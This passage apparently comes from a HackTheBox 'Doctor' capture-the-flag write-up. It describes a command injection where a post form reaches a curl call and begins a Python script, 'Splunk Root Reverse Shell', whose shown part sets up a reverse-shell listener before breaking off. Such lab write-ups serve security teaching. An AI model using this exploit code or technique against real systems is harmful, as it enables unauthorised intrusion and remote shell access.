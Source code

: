 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2002:21:22.png)

## Command Injection

When we look at routes.py

We see that the `PostForm()` is being used to validate the submission

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2002:22:42.png)

We give a closer look in it, where it's defined

```sh
grep -lRi "PostForm("
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2002:23:59.png)

And here we find it. It's making a curl command in it. The reason I can't have spaces in the url is that it won't match on the regex.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2002:24:46.png)


For last exercise let's automate the root shell on this box. Once we already know the shaun password

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2002:36:05.png)

doctor_root.py

```py
#!/usr/bin/python3
# Date: 2021-09-03
# Exploit Author: 0x4rt3mis
# Hack The Box - Doctor
# Splunk Root Reverse Shell

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import threading
import os.path

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First, let's donwload the exploit
```
